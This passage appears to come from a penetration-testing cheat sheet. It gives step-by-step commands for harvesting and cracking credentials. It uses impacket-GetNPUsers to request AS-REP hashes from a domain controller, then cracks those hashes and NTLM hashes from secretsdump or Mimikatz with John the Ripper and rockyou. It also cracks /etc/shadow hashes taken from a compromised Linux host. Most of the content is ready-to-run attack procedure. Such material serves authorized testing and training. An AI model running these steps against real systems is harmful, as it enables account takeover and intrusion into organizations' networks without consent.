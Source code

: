 **Time: 1-5 minutes for weak passwords**

---

### Scenario 2: AS-REP Roasting

**You have:** AS-REP hashes from GetNPUsers.py

```bash
# 1. Get hashes
impacket-GetNPUsers CORP/ -usersfile users.txt -dc-ip 10.10.10.10 -format john -outputfile asrep-hashes.txt

# 2. Crack
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt asrep-hashes.txt

# 3. Show results
john --show --format=krb5asrep asrep-hashes.txt
```

---

### Scenario 3: NTLM Hashes (Windows)

**You have:** NTLM hashes from secretsdump or Mimikatz

```bash
# Hash format: Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::

# 1. Extract NT hash (last part before :::)
# 8846f7eaee8fb117ad06bdd830b7586c

# 2. Save to file:
echo "Administrator:8846f7eaee8fb117ad06bdd830b7586c" > ntlm-hashes.txt

# 3. Crack
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ntlm-hashes.txt

# 4. Show
john --show --format=NT ntlm-hashes.txt
```

---

### Scenario 4: Linux /etc/shadow Hashes

**You have:** /etc/shadow file from compromised Linux system

```bash
# shadow file format:
# user:$6$salt$hash:18500:0:99999:7:::

# 1. Extract user and hash to file
grep -v '^\*' /path/to/shadow > shadow-hashes.txt

# 2. Crack (John auto-detects SHA512)
john --wordlist=/usr/share/wordlists/rockyou.txt shadow-hashes.txt

# 3. Show
john --show shadow-hashes.txt
```

---